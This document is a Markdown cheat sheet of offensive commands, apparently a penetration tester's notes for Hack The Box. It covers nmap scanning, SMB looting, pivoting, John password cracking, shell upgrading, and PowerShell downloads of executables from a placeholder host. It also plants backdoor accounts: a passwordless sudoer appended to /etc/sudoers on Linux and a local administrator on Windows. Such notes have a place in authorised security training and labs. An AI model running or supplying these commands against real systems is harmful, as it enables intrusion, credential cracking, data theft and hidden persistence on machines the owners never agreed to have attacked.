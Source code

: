 # Commands

## Kali

+ ### Shortcuts

    > **SSH**: SSH with Clear Password

    ```pwsh
    sshpass -p <Password> ssh <User>@<IP>
    ```

+ ### Enumerating

    > **NMap**: Top Scan (Fast)

    ```pwsh
    nmap -Pn -n -v -sV -sC <IP>
    ```

    > **NMap**: Full Scan with Firewall Protection (Slow)

    ```pwsh
    nmap -sT -sU -sV -O -T4 -A -Pn --open --max-retries 3 --max-scan-delay 1s --defeat-rst-ratelimit --script-args unsafe=1 -oN <Output-Dir> <IP>
    ```

+ ### Remote Access

    > **Remote Desktop Connection**:

    ```pwsh
    rdesktop 0.0.0.0 -r disk:share=/Local-Path
    ```

    > **PowerShell Core**:

    ```pwsh
    > New-PSSession -Credential (Get-Credential) -ComputerName 0.0.0.0 -Authentication Negotiate
    > Enter-PSSession 1
    ```

+ ### Looting

    > **SMBClient**: Download All Files

    ```pwsh
    smbclient '\\0.0.0.0\Folder' -c 'prompt OFF;recurse ON;lcd '.';mget *' -U 'User'
    ```

+ ### Compiling

    > x64 Compile

    ```pwsh
    x86_64-w64-mingw32-gcc Source.c -o File.exe
    ```

    > x86 Compile

    ```pwsh
    i686-w64-mingw32-gcc Source.c -o File.exe -lws2_32
    ```

+ ### File Transfer

    > **SCP**: Secure Copy with SSH

    ```pwsh
    scp <Source-Path> <User>@<IP>:<destination-Path>
    ```

+ ### Pivoting

    > **SShuttle**: VPN-Like Network Access

    > **Note:** Server must have python 2.3 or higher.

    ```pwsh
    sshuttle -r User@Remote-IP:Port Remote-Subnet/24
    ```

    > Dynamic with SSH & ProxyChains

    ```pwsh
    > ssh -D 12345 <User>@<IP> -p 22
    > export PROXYCHAINS_SOCKS5=12345
    > proxychains nmap -Pn -n -v -sV -sC <IP>
    ```

    > Static with SSH

    ```pwsh
    ssh -g -L 12345:localhost:<Port> <IP>
    ```

+ ### Password Cracking

    > Passwd & Shadow Files

    ```pwsh
    > unshadow passwd shadow > passwords.txt
    > john passwords.txt
    ```

    > Protected Zip Files

    ```pwsh
    > zip2john file.zip > password.txt
    > john passwords.txt
    ```

---

## Linux

+ ### Shell Helpers

    > Fixing PATH Enviroment Variable

    ```pwsh
    export PATH=$PATH:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:/bin:/sbin
    ```

    > Fixing TTY

    ```pwsh
    > python -c 'import pty; pty.spawn("/bin/sh")'
    > python -c 'import pty; pty.spawn("/bin/bash")'
    ```

+ ### Process List

    > List Running Process

    ```pwsh
    > ps aux
    > ps aux | grep lfmserver
    ```

+ ### Add Local Sudoer

    > Using Sudoers File

    ```pwsh
    > adduser Hacker --force-badname
    > passwd Hacker1
    > echo 'Hacker  ALL=(ALL:ALL) NOPASSWD:ALL' >> /etc/sudoers
    > su - Hacker
    > sudo bash
    ```

---

## Windows

+ ### Download File

    > Inside PowerShell

    ```pwsh
    > Invoke-WebRequest -URI http://0.0.0.0/Path -OutFile File.exe
    ```

    > Inside Command Line

    ```pwsh
    > powershell -Command "& { (New-Object Net.WebClient).DownloadFile('http://0.0.0.0/Path','File.exe') }"
    > powershell -Command "Invoke-WebRequest -URI http://0.0.0.0/Path -OutFile File.exe"

    ```

+ ### Add Local Administrator

    > Using Net.exe

    ```pwsh
    > net user Hacker Hacker1 /add
    > net localgroup administrators Hacker /add
    ```

---

## Hack The Box

+ ### Refresh Flags

    > User.txt

    ```pwsh
    gci -path c:\ -Recurse -ErrorAction SilentlyContinue -include user.txt
    ```

    > Root.txt

    ```pwsh
    gci -path c:\ -Recurse -ErrorAction SilentlyContinue -include root.txt
    ```
